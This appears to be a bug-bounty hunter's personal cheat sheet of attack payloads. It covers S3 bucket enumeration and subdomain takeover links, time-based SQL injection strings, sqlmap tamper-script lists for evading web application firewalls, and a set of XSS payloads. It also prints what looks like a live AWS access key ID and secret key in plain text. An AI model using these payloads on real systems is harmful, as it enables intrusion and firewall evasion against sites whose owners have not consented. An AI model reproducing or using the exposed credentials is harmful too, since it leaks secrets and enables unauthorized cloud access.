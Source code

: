 


open S3 bucket + Subdomain Takeover of the buckets:
aws s3 ls s3://www.echoware.com/ --no-sign-request --region us-west-2
https://bugbountypoc.com/s3-bucket-misconfiguration-from-basics-to-pawn/
https://0xpatrik.com/takeover-proofs/  --better post
https://blog.securitybreached.org/2018/09/24/subdomain-takeover-via-unsecured-s3-bucket/
https://www.we45.com/blog/how-an-unclaimed-aws-s3-bucket-escalates-to-subdomain-takeover
Accesskey ID: AKIAZG4KGXFUPPMRIMJZ
secret access key: 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



time-based sql injection:
www.vuln-web.com/photo.php?id=1" and sleep(10)--
www.vuln-web.com/photo.php?id=1" and sleep(10)#
www.vuln-web.com/photo.php?id=1" and sleep(10)/*
www.vuln-web.com/photo.php?id=1" and sleep(10)--+
	1'=sleep(10)='1 
	'=IF(MID(VERSION(),1,1)=1,SLEEP(10),0)='1
	'=IF(MID(VERSION(),1,1)=5,SLEEP(10),0)='1
	1 ' or true# 
	1 ' or false#

General Tamper testing:
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes

MSSQL:
tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes

MySQL:
tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor


WAF Bypass with sqlmap 
sqlmap.py -u "URL" --batch --banner --tamper=modsecurityversioned 
https://www.hackingarticles.in/manual-sql-injection-exploitation-step-step/  --beginners resource





XSS Payloads:
<script>alert(1)</script>
"><img src=# onmouseover=alert(1)>
"><img src=# onload=prompt(1)>
"><svg/onload=alert(1)>
<svg/onload=prompt(1)
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
';alert(String.fromCharCode(88,83,83))
'">><marquee><img src=x onerror=confirm(1)></marquee>">
<IMG SRC=JaVaScRiPt:alert()>
<scr ipt>{JAVASCRIPT}</scr ipt>
"><script>{JAVASCRIPT}</script>
"><script>{JAVASCRIPT}</script><"
'><script>{JAVASCRIPT}</script>
'><script>{JAVASCRIPT}</script><'
onerror='{JAVASCRIPT}'